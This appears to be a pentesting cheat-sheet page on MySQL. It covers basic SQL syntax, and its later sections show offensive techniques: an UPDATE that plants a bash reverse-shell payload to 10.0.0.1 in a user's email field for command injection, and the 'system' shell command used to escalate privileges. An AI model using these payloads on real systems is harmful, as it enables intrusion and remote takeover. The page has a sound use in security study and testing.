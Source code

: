 # Create new table
mysql> create table table_name(column_name column_type);
mysql> create table table_name(user_id int, user_name varchar(40));

# Create an user-defined function
mysql> create function func_name(param1, param2) returns datatype;
mysql> create function new_fund(age integer) returns integer;

# Use a function
mysql> select func_name(param1, param2);

# Insert new record to a given table
mysql> insert into <table> values(value1, value2);

# Update data in a given table
mysql> update <table> set <column>='<value>';
mysql> update <table> set <column1>='<value1>',<column2>='<value2>';
# e.g.
mysql> update users set role='admin' where username='john';

# Delete a record
mysql> delete from <table> where <column> = <value>;
# e.g.
mysql> delete from users where id = 2;
Copied!
Command Injection
We can inject the OS command to column values e.g. email address.
Depending on the situation, we may be able to execute arbitrary command.

# Update existing user email to execute reverse shell
mysql> update exampledb.users SET email='admin@shell|| bash -c "bash -i >& /dev/tcp/10.0.0.1/1234 0>&1" &' where name like 'admin%';
Copied!
System Commands
We can run the system command in MySQL shell as below. Depending on the situation, we may be able to escalate privileges.

mysql> system whoami
mysql> system bash
